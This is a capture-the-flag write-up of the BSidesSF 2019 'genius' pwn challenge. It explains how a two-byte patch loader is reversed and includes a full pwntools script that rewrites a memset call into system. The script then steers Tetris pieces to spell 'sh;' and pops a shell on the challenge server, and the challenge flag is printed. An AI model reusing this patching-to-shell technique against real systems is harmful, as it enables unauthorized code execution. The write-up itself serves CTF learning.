









# BSidesSF 2019 CTF 

## genius

## Information

**Category:** | **Points:** | **Writeup Authors**
--- | --- | ---
PWN | 500 | [a1exdandy](https://twitter.com/a1exdandy) and [merrychap](https://github.com/merrychap)

**Description:** 

>Using your 80s gamer skills, and maybe some help from a Genius friend, can you read /home/ctf/flag.txt?

`nc genius-0a835449.challenges.bsidessf.net 1338`

**Files:**

[loader](./loader)

[genius](./genius)

## Solution

So, basically, we are given with two binaries: `loader` and `genius`. Let's start with the reversing each file and trying to understand what they are supposed to do

### Reversing `loader`

#### main function

It's a really tiny binary and it does the following:

1. Reads `genius` binary into the stack char array (as a binary data).

<p align="center">
  
</p>

2. Asks Game Genius code for the first time.

<p align="center">
  
</p>

3. Asks Game Genius code for the second time.

<p align="center">
  
</p>

4. Puts `genius_binary` into a tmp file and executes it

<p align="center">
  
</p>

Now let's talk about each statement above. I suppose the first statement is clear -- the `genius` binary is just loaded into the stack memory of `loader` executable in runtime. The more interesting part here is patch applying. Before diving into `apply_patch` function we need to understand that `apply_patch` takes `code` we enter, `offsetX` and `byteX` as parameters. After calling for `apply_patch` `genius_binary` is changed: `genius_binary[offsetX] = byteX`. Looks like we input some code that is converted further into an offset and some byte. It means that we can change any two bytes of the `genius` binary. Sounds cool!

#### apply_patch function

Now we have enough information to understand `apply_patch` function. 

<p align="center">
  
</p>

As you can see, entered `code` is divided into bytes and these bytes are converted using `convert` function. Before talking about applying patch itself, let's explore `convert` function in the first place.

<p align="center">
  
</p>

Just `byte <-> byte` matching. But look at the resulting bytes more closely. They are basically all permutations of 4 bits:

```
0000
0001
0010
0011
0100
...
1111
```

Interesting, but let's back to `apply_patch` function. `offset` and `byte` are calculated using converted bytes. More accurately, it uses some bits of each converted byte to calculate `offset` (2 bytes size) and `byte` (1 byte size). Now, we just need to understand how bits are placed. After spending some time we've got the next:

- First line : global bit index

- Second line : converted byte number (you saw them in the picture somewhere above)

- Third line : local bit index. If you remember, all our converted bytes are between `0b000` and `0b1111`, so different bits are used in different places.

Offset:
```
|15|14|13|12|11|10| 9| 8| 7| 6| 5| 4| 3| 2| 1| 0|
| 0|b4|b4|b4|b5|b6|b6|b6|b2|b3|b3|b3|b4|b5|b5|b5|
|  | 2| 1| 0| 3| 2| 1| 0| 3| 2| 1| 0| 3| 2| 1| 0|
```

Byte
```
| 7| 6| 5| 4| 3| 2| 1| 0|
|b1|b2|b2|b2|b6|b1|b1|b1|
| 3| 2| 1| 0| 3| 2| 1| 0|
```

Now we're able to write a script that will be generate `code` based on specified `offset` and `byte`:

```python
magic_dict = {
    0b0000: 'A',
    0b1000: 'E',
    0b0100: 'G',
    0b0101: 'I',
    0b1100: 'K',
    0b0011: 'L',
    0b1111: 'N',
    0b1001: 'O',
    0b0001: 'P',
    0b1101: 'S',
    0b0110: 'T',
    0b1011: 'U',
    0b1110: 'V',
    0b1010: 'X',
    0b0111: 'Y',
    0b0010: 'Z'
}


def gen_input(addr, val):
    b1 = (val & 0b111) | ((val & 0b10000000) >> 4)
    b2 = ((val & 0b1110000) >> 4) | ((addr & 0b10000000) >> 4)
    b3 = ((addr & 0b1110000) >> 4)
    b4 = ((addr & 0b111000000000000) >> 12) | ((addr & 0b1000))
    b5 = ((addr & 0b100000000000) >> 8) | (addr & 0b111)
    b6 = ((addr & 0b11100000000) >> 8) | ((val & 0b1000))

    return magic_dict[b1] + \
           magic_dict[b2] + \
           magic_dict[b3] + \
           magic_dict[b4] + \
           magic_dict[b5] + \
           magic_dict[b6]

# it will generate an input that will be converted
# into offset=0x1122 and byte=0x41
gen_input(0x1122, 0x41)
```

Alright, we're done with `loader` now. As we understood, `loader` allows us to change two arbitrary bytes of `genius` binary. Now we can proceed to look at the `genius` binary

### Reversing `genius`

You can reverse the binary by your own :D We will only discuss the most important parts for solving the task.

Basically, `genius` is a Tetris game. We have spent some time reversing it and haven't found any bugs in the game itself. The most important part here is that the game map is stored using set and unset bits. It means that each game map point is an object of the bit array.

<p align="center">
  
</p>

### Exploiting the game

As long as the game doesn't have any visible bugs, we need to create them! If we look at the code of `main` function more closely, we can notice that at the end of the function `memset` is called:

<p align="center">
  
</p>

This is potentially can be used to create a vulnerable code. Let's imagine we change `memset` to `system`, then everything we need to do after this  is to create `sh;` string somewhere inside of `game_buf` (which is the game map actually).

We can change `memset` to `system` by changing only one byte : `0xcb -> 0x8b` in the function call. Cool, now we have the last one byte to use. Where it can be used? Well, we need to create `sh;` string at the beginning of the `game_buf` to pop up a shell. But this is not very convenient, it's hard to control beginning of the game map. Instead, we can change offset to the pushed address for `memset` in order to shift the beginning of `game_buf` somewhere further which will be nice.

Alright, here is an example of `sh;` string in the game buffer:

<p align="center">
  
</p>

Generally speaking, we need to do three things:

1. Change `memset` to `system` by changing `0xcb` to `0x8b` at `0x1551` offset of the `genius` binary beginning

2. Change the beginning of `game_buf` for `system`. `0xa0 -> 0xab` at `0x154c` offset of the beginning.

3. Construct `sh;` as shown in the picture above.

The final call to `memset (system)` will be like that:

<p align="center">
  
</p>

If we do everything correctly, then we get the shell:

<p align="center">
  
</p>

The last thing we need to do is to play the game in such way that `sh;` is constructed as in the picture. Well, it was a pain, so let's just skip this part :D

### The final exploit

So here are [the final exploit](./exploit.py)

```python
import time

from pwn import *


magic_dict = {
    0b0000: 'A',
    0b1000: 'E',
    0b0100: 'G',
    0b0101: 'I',
    0b1100: 'K',
    0b0011: 'L',
    0b1111: 'N',
    0b1001: 'O',
    0b0001: 'P',
    0b1101: 'S',
    0b0110: 'T',
    0b1011: 'U',
    0b1110: 'V',
    0b1010: 'X',
    0b0111: 'Y',
    0b0010: 'Z'
}


def gen_input(addr, val):
    b1 = (val & 0b111) | ((val & 0b10000000) >> 4)
    b2 = ((val & 0b1110000) >> 4) | ((addr & 0b10000000) >> 4)
    b3 = ((addr & 0b1110000) >> 4)
    b4 = ((addr & 0b111000000000000) >> 12) | ((addr & 0b1000))
    b5 = ((addr & 0b100000000000) >> 8) | (addr & 0b111)
    b6 = ((addr & 0b11100000000) >> 8) | ((val & 0b1000))

    return magic_dict[b1] + \
           magic_dict[b2] + \
           magic_dict[b3] + \
           magic_dict[b4] + \
           magic_dict[b5] + \
           magic_dict[b6]


REMOTE = False

def main():
    if REMOTE:
        pc = remote('genius-0a835449.challenges.bsidessf.net', 1338)
        pc.sendlineafter('continue!\n', gen_input(0x154c, 0xab))
        pc.sendlineafter('<enter>', gen_input(0x1551, 0x8b))
    else:
        pc = process('./loader')
        pc.sendlineafter('continue!\n', gen_input(0x154c, 0xab))
        pc.sendlineafter('<enter>', gen_input(0x1551, 0x8b))

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')
    ##
    ##
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    #
    ##
     #
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ###
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    #
    ###
    pc.sendline('e')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    ##
    ##
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')
    
     #
    ##
    #
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ##
    #
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ###
    pc.sendline('q')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')
    
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    ##
    ##
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ##
    #
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ###
    pc.sendline('e')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    #
    ###
    pc.sendline('e')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')
    
      #
    ###
    pc.sendline('q')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    #
    ##
     #
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

      #
    ###
    pc.sendline('q')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    ####
    pc.sendline('q')
    pc.sendline('d')
    pc.sendline('d')
    # pc.sendline('s')

    for i in range(13):
        pc.recvuntil('+----------+')
        pc.recvuntil('+----------+')
    pc.sendline('d')
    pc.sendline('s')

    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ##
    #
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    ##
    ##
    pc.sendline('a')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ###
    pc.sendline('q')
    pc.sendline('q')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ###
    pc.sendline('d')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ##
    #
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    ####
    pc.sendline('q')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    #
    ###
    pc.sendline('e')
    pc.sendline('e')
    pc.sendline('a')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ###
    pc.sendline('e')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

     #
    ###
    pc.sendline('q')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('d')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    #
    ###
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    #
    ###
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

      #
    ###
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('a')
    pc.sendline('q')
    pc.sendline('a')
    pc.sendline('a')
    for i in range(8):
        pc.recvuntil('+----------+')
        pc.recvuntil('+----------+')
    pc.sendline('d')
    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')

    pc.sendline('s')
    pc.recvuntil('+----------+')
    pc.recvuntil('+----------+')
    

    pc.interactive()


if __name__ == '__main__':
    main()
```

### Little note

We haven't solved it while the ctf was running, because of merrychap's fuckup :D Instead of 

```python
pc.recvuntil('+----------+')
pc.recvuntil('+----------+')
```

he used `sleep(1)` and it was a huge mistake. a1exdandy fixed it some time after the end of the ctf and we have got the flag:

> Flag: CTF{game_genie_killed_the_nintendo_star}

It was a nice chall and we enjoyed it a lot :)